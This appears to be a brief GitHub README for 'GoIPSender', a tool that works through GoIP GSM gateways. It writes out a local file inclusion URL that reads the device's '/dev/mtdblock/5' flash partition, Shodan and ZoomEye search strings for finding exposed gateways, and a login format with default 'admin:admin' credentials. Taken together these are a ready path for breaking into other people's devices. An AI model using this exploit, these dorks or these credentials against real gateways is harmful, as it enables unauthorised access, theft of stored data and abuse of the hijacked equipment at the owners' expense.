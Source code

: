 # GoIPSender

# Config
``host|user:pass,line``
exemple: ``177.30.254.36:81|admin:admin,8``
## LFI GoIP Dbltek
``http://ip:port/default/en_US/frame.html?content=/dev/mtdblock/5``
# Get export results
``zoomeye: /default/en_US/status.html``
``shodan: HTTP/1.0 401 Please Authenticate WWW-Authenticate: Basic realm="Please Login"``
<br/><br/>
![image](https://user-images.githubusercontent.com/74382279/198907983-7b0c6075-fdca-41ef-aba9-fe393d0b7b3e.png)

